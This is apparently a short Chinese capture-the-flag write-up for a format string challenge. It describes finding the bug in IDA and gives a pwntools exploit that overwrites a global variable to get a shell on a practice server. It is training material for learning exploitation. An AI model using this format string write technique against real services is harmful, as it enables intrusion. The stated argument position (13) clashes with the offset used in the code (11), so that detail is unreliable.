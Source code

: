 拖入IDA进行分析，存在格式化字符串漏洞

![](img/7bb3b5faa79c08df3f6d23b90a854a8b.png)

当x为4时直接getshell，x在bss段上

![image.png](img/16b4c488f8ad73a8d6cee2b49de63629.png)

格式化字符串在第13个参数的位置
![](img/a75f2e88195603035644a042448f4687.png)

故构造exp如下：

```
from pwn import *

payload = fmtstr_payload(11,{0x804A02C:0x4})

p = remote('node3.buuoj.cn',25865)
p.sendline(payload)
p.interactive() 
```
